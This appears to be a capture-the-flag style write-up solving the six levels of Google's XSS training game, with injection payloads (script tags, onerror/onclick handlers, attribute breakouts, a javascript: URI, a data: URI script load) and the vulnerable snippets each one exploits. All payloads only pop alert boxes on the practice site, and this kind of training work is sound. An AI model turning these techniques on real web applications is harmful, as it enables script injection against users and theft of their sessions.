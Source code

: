 # Solutions to Google XSS Challenges

## Level 1

### How to trigger the vulnerability?
```html
<script>alert()</script>
```

### Where is the vulnerable code?
In [level1.py](source-code/level-1.py), the input strings are directly being rendered without any escaping or validation.

```python
message = "Sorry, no results were found for <b>" + query + "</b>."

self.render_string(page_header + message + page_footer)

def render_string(self, s):
    self.response.out.write(s)
```

## Level 2

### How to inject Javascript code?
Since simply using `<script>...</script>` will not work in this case, we need to find other ways to inject Javascript code.

Some options:

```html
<a href="#" onclick="alert()">Click Me To Exploit!</a>
```

```html
<img src="hahaa" onerror="alert()">
```

### Analysis

Any content of post is displayed without escaping. Therefore, we can use "onclick" or "onerror" to execut a script.

## Level 3

### How to exploit?
In this level I've come up with two ways to exploit the xss vulnerabilities.

First, modify the URL such that the image will not be displayed and thus trigger the `onerror` event which we injected.
```url
https://xss-game.appspot.com/level3/frame#4' onerror="alert()" alt='exploited_image
```
An alternative solution will be the web page as normal render the correct image (for example, 3.jpg), but this time we add the `onClick` event into the image. So the injected JS code will be triggered when the user click that correctly displayed image.
```url
https://xss-game.appspot.com/level3/frame#1.jpg' onClick="alert()" alt='will_not_display
```


### Vulnerable Code

The vulnerable code appears at Line17 of [index.html](/source_code/level-3/index.html) file. This allows attacker to inject Javascript code using `onerror` event in the `img` tag.
```html
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

After injecting the above url, the `img` tag of the html file will be rendered as
```html
<img src='/static/level3/cloud/4' onerror="alert()" alt='exploited_image.jpg' />
```
---
#### *NOTICE*:
The image is stored inside the database as `1.jpg`. So if you modify the image tag as
```html
<img src='/static/level3/cloud/1.jpg' onerror="alert()" alt='will_not_display.jpg' />
```
will NOT trigger the `onerror` event.

Just delete the `.jpg` extension will make the image un-displayable and thus trigger the `onerror` event :)

## Level 4

### How to exploit?
Input the following weird string to become the timer!
```
3');alert('
```

### Analysis
In this case, the vulnerable code locates at line 21 of the  [timer.html](/source_code/level-3/timer.html) file.

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

With proper numerical input, the `onload` event execute the function `startTimer('3');` without any problem. In this case, `3` is the type of string, and will eventually be parsed as integer (`parseInt`) in the startTimer function.

Thus, we can utilize the `onload` event to add additional javascript code! If our input is OUR_INPUT_STRING, the `startTimer` function will look like this:
```js
onload="startTimer('OUR_INPUT_STRING')"
```

If we intentionally set our input to be `3');`, some magical things then happen! We have manually escaped the startTimer function! In this case, the onload event looks like this:
```js
// I intentionally make a space after the `;` of startTimer function. Just to make things clearer :)
onload="startTimer('3'); ')"
```
The remaining `');'` is "auto-filled" by the program, so the remaining thing we need to do is to add `alert('` after our above-mentioned tricky string. Now we have successfully injected the javascript code into the web page!

The **injected** `onload` event will become like this:
```js
onload="startTimer('3');alert('')"
```

## Level 5

### How to exploit?
```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('')
```

In the `signup` page, change the value of the `next` parameter in the URL. Use `javascipt:alert()` instead of "confirm"!

So the URL for our exploitation will become
```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()
```

*NOTICE*: After you forge the URL in this case, you need to **click the GO button first**, then entering your mail and clicking the Next button. Only in this case will make that forged URL valid. After that, enjoy the result javascript alert popping up :)

### Analysis

After changing the content of "next" parameter, behavior of the next button will be modified, which is defined in line 15 of signup.html:
```html
<a href="{{ next }}">Next >></a>
```

Javascript code inserted in the parameter will be executed after clicking the next button.

## Level 6

### Exploit Code

```html
https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert
```

Another way to work...
```html
https://xss-game.appspot.com/level6/frame#data:text/javascript,alert('')
```

### Analysis

Function includeGadget(url) prevents client from loading a 'http' url, but leaves other data formats unchecked. We can load a text which contains javascript code, or a url without 'http'.
